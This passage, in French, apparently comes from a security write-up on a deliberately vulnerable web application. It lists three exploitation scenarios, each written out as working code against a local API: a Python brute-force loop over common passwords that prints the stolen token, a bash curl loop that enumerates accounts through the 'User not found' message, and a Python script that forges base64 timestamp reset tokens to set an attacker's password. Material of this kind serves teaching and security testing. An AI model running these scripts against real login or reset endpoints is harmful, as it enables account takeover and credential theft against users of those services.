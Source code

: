 ## 💥 Scénarios d'exploitation

### Scénario 1 : Attaque par force brute
```python
import requests
import itertools

# Génération de mots de passe courants
passwords = ['password', '123456', 'admin', 'password123', 'qwerty']
email = 'admin@example.com'

for password in passwords:
    response = requests.post('http://localhost:5000/api/auth/login', 
        json={'email': email, 'password': password})
    
    if response.status_code == 200:
        print(f"Mot de passe trouvé: {password}")
        print(f"Token: {response.json()['token']}")
        break
```

### Scénario 2 : Énumération d'utilisateurs
```bash
# Test d'existence d'emails
emails=("admin@example.com" "user@example.com" "test@example.com")

for email in "${emails[@]}"; do
    response=$(curl -s -X POST http://localhost:5000/api/auth/login \
        -H "Content-Type: application/json" \
        -d "{\"email\":\"$email\",\"password\":\"wrongpass\"}")
    
    if [[ $response == *"User not found"* ]]; then
        echo "Email n'existe pas: $email"
    else
        echo "Email existe: $email"
    fi
done
```

### Scénario 3 : Exploitation du token de réinitialisation
```python
import base64
from datetime import datetime

def generate_reset_token(email):
    # Génère des tokens pour les dernières minutes
    for minute in range(0, 5):
        timestamp = datetime.now().strftime(f"%Y%m%d%H{datetime.now().minute - minute:02d}")
        data = f"{email}:{timestamp}"
        token = base64.b64encode(data.encode()).decode()
        
        # Tente de réinitialiser le mot de passe
        response = requests.post('http://localhost:5000/api/auth/reset-password',
            json={'token': token, 'newPassword': 'hacked123'})
        
        if response.status_code == 200:
            print(f"Réinitialisation réussie avec token: {token}")
            break
```
